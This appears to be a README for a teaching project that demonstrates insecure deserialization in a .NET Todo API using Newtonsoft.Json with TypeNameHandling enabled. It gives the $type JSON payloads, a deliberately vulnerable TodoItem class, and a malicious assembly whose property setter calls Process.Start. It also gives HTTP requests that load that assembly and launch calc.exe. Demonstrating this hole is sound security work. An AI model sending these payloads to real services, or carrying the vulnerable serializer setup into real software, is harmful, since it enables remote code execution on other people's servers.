 # Introduction

This project demonstrates serialization vulnerabilities using Newtonsoft.Json and BinarySerialization. The Todo project is baseed on the starter tutorial available here:

[Create a controller based API](https://learn.microsoft.com/en-us/aspnet/core/tutorials/first-web-api?view=aspnetcore-7.0&tabs=visual-studio)

These examples were assembled based on serialization vulnerabilities highlighted in the [ysoserial.net](https://github.com/pwntester/ysoserial.net) git repo. This example reproduces a remote code execution vulnerability by exploiting the Newtonsoft.Json serializer. 

The [TypeNameHandling property](https://www.newtonsoft.com/json/help/html/T_Newtonsoft_Json_TypeNameHandling.htm) exposes a deserialization vulnerability then the value is set to anything other than _None_. This informs the deserialization process to resolve a type using the _$type_ property.
``` JSON
{
    "$type": "System.IO.FileInfo, System.IO.FileSystem",
    "fileName": "rce-test.txt"
}
```
This example creates a _System.IO.FIleINfo_ instance and set the _FIleName_ property to "rce_test.txt." This could potentially be used to exfiltrate file information on the host environment. The examples in this repo make use of a generic dictionary to pass malicious payloads. The _TodItem_ class has twp vulnerabile properties. _Metadata_ accepts a _Dictionary<string, object>_ and _BinaryMetadata_ accepts a class that uses a _BinaryFormatter_.

``` C#
public class TodoItem
{
    public long Id { get; set; }
    public string? Name { get; set; }
    public bool IsComplete { get; set; }

    public Dictionary<string, object>? Metadata { get; set;}
    public List<MetadataItem>? BinaryMetadata { get; set; }
}

```

This can be exploited using the following message:

``` JSON
{
  "name": "walk dog1",
  "isComplete": true,
  "metadata":
    {
        "data2": {
		   "$type": "System.IO.FileInfo, System.IO.FileSystem",
		   "fileName": "rce-test.txt"
	     }
    }
}
```
# How to Reproduce

This project uses a simple ToDo REST API to demonstrate this JSON RCE vulnerability. The MaliciousAssembly project includes this property which calls _Process.Start_ using the property value.

``` C#
public string ProcessLaunch
{
    get
    {
        return processName;
    }
    set
    {
        processName = value;
        Process.Start(value);
    }
}
```

## Upload malicious file

During complication, this assembly is placed in the bin directory of the ToDo web api with the file name _someimage.png_. This substitutes for a REST API with a file upload endpoint. In a production environment, this could be placed in Azure Blob storage and referenced by a URL.

## Load the malicious file

The first REST API call loads the malicious file using:

``` JSON
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "load assembly",
  "isComplete": true,
  "metadata":
    {
        "data2":  {"$type":"System.Configuration.Install.AssemblyInstaller, 
            System.Configuration.Install",
            "Path":"someimage.png"}
    }
}
```
The _Path_ is local; however, in a production environment, it could be loaded from a temporary directory or another local directory.

## Invoke the Malicious Property

Now that the Assembly is in the AppDomain, the ProcessLaunch property can be invoked:

``` JSON 
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "launch calc",
  "isComplete": true,
  "metadata":
    {
        "launchdata":  
           { "$type":"MaliciousAssembly.ProcessStarter, MaliciousAssembly",
             "ProcessLaunch":"calc.exe" }
    }
}
```

These calls are available in the _todo-badpath.http_ file. Running these examples in Visual Studio Code requires the [REST Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client) extension.

## JSON Vunlnerability

The JSON vulnerability is exposed in Newtonsoft.Json through the use of `TypeNameResolver.`

With .NET 6+ it is not possible to override the default JSON serializer from System.Text.Json when using minimal APIs. See [Minimal APIs quick reference](https://learn.microsoft.com/en-us/aspnet/core/fundamentals/minimal-apis?view=aspnetcore-6.0#configure-json-deserialization-options-for-body-binding).

